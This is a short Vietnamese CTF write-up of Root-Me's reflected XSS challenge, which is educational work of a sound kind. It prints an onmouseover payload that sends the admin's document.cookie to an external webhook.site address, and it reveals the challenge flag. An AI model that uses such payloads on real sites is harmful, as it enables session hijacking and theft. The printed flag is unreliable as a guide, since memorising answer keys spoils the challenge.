






```diff
@@ Web-Client Challenge
```

## XSS - Reflected [45 Points]

* Challenge cung cấp một trang web bán hàng như sau

  

* Ngoài trang ```Contact us``` thì có vẻ không có chỗ nào để tương tác với admin. Tuy nhiên nó đã ghi rõ đây là 'useless form', cho dù ta có cố gắng post gì lên thì nó đều thông báo là đã bỏ qua form của chúng ta.

  

  

* Bế tắc, ta kiểm tra source ta thấy còn một trang nữa

  

* Trang này cho phép ta tương tác với admin, bằng cách post lên 1 đường link web bị hỏng và admin sẽ kiểm tra nó

  

* Lưu ý rằng đề có gợi ý rằng admin sẽ không click vào, vậy thì ta cần dùng script inline để khi admin di chuột thì sẽ tự động kích hoạt XSS. Em dùng onmouseover để kích hoạt xss

  Payload: ( Thay đổi href trong "Report to the administrator" )

  ```?p=report&url=http://challenge01.root-me.org/web-client/ch26/?p=' onmouseover="document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f/?flag='.concat(document.cookie)"```

  Kết quả:

  

  ```diff
  -- r3fL3ct3D_XsS_fTw
  ```

  ​